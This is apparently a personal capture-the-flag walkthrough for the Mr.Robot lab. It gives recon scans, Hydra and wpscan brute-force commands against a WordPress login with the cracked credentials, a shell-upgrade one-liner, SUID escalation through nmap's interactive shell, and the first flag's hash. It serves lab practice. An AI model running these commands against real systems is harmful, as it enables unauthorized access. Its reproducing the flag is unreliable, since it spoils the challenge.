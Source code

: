 # Mr.Robot CTF notes

###### [Home](https://eduardo-granados.github.io/)

---



export IP=10.10.215.144


- view page http://10.10.215.144/

- Check source code

- nmap -v2 -sC -sV -oN nmap_scap.log $IP

- nikto -h http://$IP | tee nikto_scan.log
    Check robots.txt at http://10.10.105.148/robots.txt you can find the following:
        User-agent: *
        fsocity.dic
        key-1-of-3.txt

        http://10.10.105.148/key-1-of-3.txt, you can find the following:
            073403c8a58a1f80d943455fb30724b9

- gobuster dir -u http://$IP -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -q -t 100 -o gobuster_small.log
    http://10.10.105.148/wp-login.php

- hydra
    hydra -L <list> -p <password> <IP> http-post-form "/<path>:log=^USER^&pwd=^PASS^:<error>" -t 4 -V
    hydra -L fsocity.dic -p admin 10.10.239.125 http-post-form "/wp-login:log=^USER^&pwd=^PASS^:Invalid username." -t 4 -V
        [80][http-post-form] host: 10.10.239.125   login: Elliot   password: admin


    hydra -l <username> -P <list> <IP> http-post-form "/<path>:log=^USER^&pwd=^PASS^:<error>" -t 4 -V
    hydra -l Elliot -P fsocity.dic 10.10.110.179 http-post-form "/wp-login:log=^USER^&pwd=^PASS^:The password you entered for the username" -t 4 -V

OR instead of hydra for pw cracking try wpscan    

- wpscan
    wpscan --url 10.10.110.179/wp-login --usernames 'Elliot' --passwords fsocity.dic


- PHP reverse shell

- John the ripper
    john <file> --wordlist=<list> --format=<format>

- shell upgrade
    /usr/bin/script -qc /bin/bash /dev/null

- root privilege escalation
    find / -perm +6000 2>/dev/null | grep '/bin/'
    
    nmap --interactive
    nmap> !sh





# Answer


```

key-1-of-3.txt
073403c8a58a1f80d943455fb30724b9



```